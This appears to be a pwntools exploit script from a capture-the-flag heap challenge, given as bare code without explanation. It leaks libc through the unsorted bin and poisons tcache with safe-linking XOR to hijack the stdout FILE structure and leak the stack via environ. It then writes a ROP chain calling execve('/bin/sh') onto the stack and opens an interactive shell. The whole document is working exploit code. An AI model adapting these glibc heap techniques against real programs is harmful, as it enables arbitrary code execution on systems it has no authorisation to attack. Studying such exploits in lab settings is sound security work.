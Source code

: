 ```py
alloc(8, b"YY", 0x100)

alloc(9, b"/bin/sh\0", 0x10)

for i in range(7):
    free(i)

alloc(9, b"YY", 100)
free(9)

free(8)
free(7)
view(8)

libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # - 0x1bebe0 # offset of the unsorted bin

rop = pwn.ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)

environ = libc.address + 0x221200 
stdout = libc.address + 0x21a780

pwn.log.info(f"libc: {hex(libc.address)}")
pwn.log.info(f"environ: {hex(environ)}")
pwn.log.info(f"stdout: {hex(stdout)}")

alloc(0, b"YY", 0x100)
free(8)
alloc(1, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stdout ^ ((heap + 0xb20) >> 12))), 0x130)
alloc(2, b"TT", 0x100)
alloc(3, pwn.p32(0xfbad1800) + pwn.p32(0) + pwn.p64(environ)*3 + pwn.p64(environ) + pwn.p64(environ + 0x8)*2 + pwn.p64(environ + 8) + pwn.p64(environ + 8), 0x100)

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x130 - 8# - 0x1bebe0 # offset of the unsorted bin
pwn.log.info(f"stack: {hex(stack)}")

free(1) # large
free(2)

alloc(5, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stack ^ ((heap + 0xb20) >> 12))), 0x130)
alloc(2, b"TT", 0x100)

alloc(3, pwn.p64(stack) + rop.chain(), 0x100) # overwrite sRBP for nothing lmao

io.interactive()
```